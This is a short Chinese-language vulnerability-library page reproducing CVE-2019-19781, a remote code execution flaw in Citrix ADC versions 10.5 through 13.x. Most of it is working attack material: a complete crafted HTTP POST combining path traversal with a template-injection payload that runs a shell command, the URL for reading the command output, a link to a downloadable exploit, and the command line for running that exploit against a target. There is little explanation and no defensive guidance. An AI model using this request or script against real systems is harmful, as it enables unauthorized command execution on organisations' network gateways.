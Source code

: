 ```yaml
---
title: 'Citrix 远程代码执行漏洞复现（CVE-2019-19781）'
date: Thu, 01 Oct 2020 09:04:27 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

Citrix 13.x,12.1,12.0,11.1,10.5

### 漏洞复现

方法一： 构造如下数据包```
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/1.1
Host: target-ip
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: ../../../netscaler/portal/templates/15ffbdca
Content-Length: 89

url=http://example.com&title=test&desc=[% template.new('BLOCK' = 'print `whoami`') %] 
```访问/vpn/../vpns/portal/test.xml即可返回命令执行结果 方法二： exp下载：https://codeload.github.com/jas502n/CVE-2019-19781/zip/master```
python CVE-2019-19781-Citrix-ADC-Remote-Code-Execution.py https://target-ip 
```提示代理错误的话，挂本地代理即可。